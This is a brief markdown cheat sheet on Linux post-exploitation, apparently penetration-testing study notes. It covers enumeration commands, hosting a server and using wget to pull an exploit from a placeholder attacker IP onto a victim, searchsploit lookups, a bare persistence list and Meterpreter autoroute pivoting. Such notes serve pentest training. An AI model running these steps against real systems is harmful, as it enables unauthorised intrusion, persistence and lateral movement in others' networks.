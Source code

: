 # Linux Post Exploitation


## Enumeration

    uname -a
       
    ps -aux 
   
## Downloading files

    python -m SimpleHTTPServer  #Host the web server
      wget <IP>:8000/exploit     # Download to victim machine

    python -m pyftpdlib 21      #Host ftp server
      ftp <IP>
      
## Exploit

    searchsploit <linux kernel version>
   
    searchsploit <linux version>
   
 
 ## Maintain persistence

  - Add user
  

  - Metasploit


  - Set a scheduled task
  
  
## Pivoting

 If pwnd target has a connection to a network that we do not have a connection to, we can set up a route on the machine to forward our traffic 
 
   - Meterpreter 
   
         run autoroute -s <target network seen via enumeration>/CIDR
         
         run autoroute -p   #to confirm
         
       you can now test by pinging a device on the remote network
